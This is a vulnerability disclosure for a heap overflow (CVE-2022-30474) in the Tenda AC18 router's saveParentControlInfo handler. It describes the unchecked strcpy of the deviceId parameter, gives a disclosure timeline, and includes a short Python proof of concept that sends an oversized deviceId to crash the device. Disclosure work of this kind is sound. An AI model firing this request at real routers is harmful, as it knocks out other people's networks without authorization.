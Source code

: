 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/saveParentControlInfo` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **heap overflow** vulnerability in function `saveParentControlInfo`.

In function `saveParentControlInfo` it reads user provided parameter `deviceId` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the heap-based buffer `ptr`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/saveParentControlInfo`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/saveParentControlInfo?"
url += "deviceId=" + "s" * 0x1000

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30474)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
